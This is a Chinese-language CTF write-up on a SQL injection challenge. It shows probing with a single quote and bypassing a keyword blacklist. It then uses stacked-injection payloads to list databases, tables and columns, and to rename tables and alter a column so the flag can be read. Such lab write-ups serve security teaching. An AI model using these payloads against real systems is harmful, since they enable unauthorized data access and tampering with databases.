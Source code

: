 ![alt text](image-10.png)

先添加一个单引号，报错，错误信息如下：

error 1064 : You have an error in your SQL syntax; check the manual that corresponds to your MariaDB server version for the right syntax to use near ''1''' at line 1
接着测试–+注释，发现被过滤，然后使用#注释，可行
用order by语句判断出有两个字段，接着使用union select 爆字段，发现这个时候出现了如下提示：

return preg_match("/select|update|delete|drop|insert|where|\./i",$inject);
发现上面的关键字都被过滤不能使用了，没法进行注入，这个时候尝试一下堆叠注入

现在回到这道题，利用堆叠注入，查询所有数据库：

1';show databases;#

![alt text](image-11.png)
查询所有表:

1';show tables;#


查询words表中所有列:

1';show columns from words;#


查询1919810931114514表中所有列

1';show columns from `1919810931114514`;#      (字符串为表名操作时要加反引号)


根据两个表的情况结合实际查询出结果的情况判断出words是默认查询的表，因为查询出的结果是一个数字加一个字符串，words表结构是id和data，传入的inject参数也就是赋值给了id

这道题没有禁用rename和alert，所以我们可以采用修改表结构的方法来得到flag
将words表名改为words1，再将数字名表改为words，这样数字名表就是默认查询的表了，但是它少了一个id列，可以将flag字段改为id，或者添加id字段

1';rename tables `words` to `words1`;rename tables `1919810931114514` to `words`; alter table `words` change `flag` `id` varchar(100);#
这段代码的意思是将words表名改为words1，1919810931114514表名改为words，将现在的words表中的flag列名改为id
然后用1' or 1=1 #得到flag

![alt text](image-12.png)
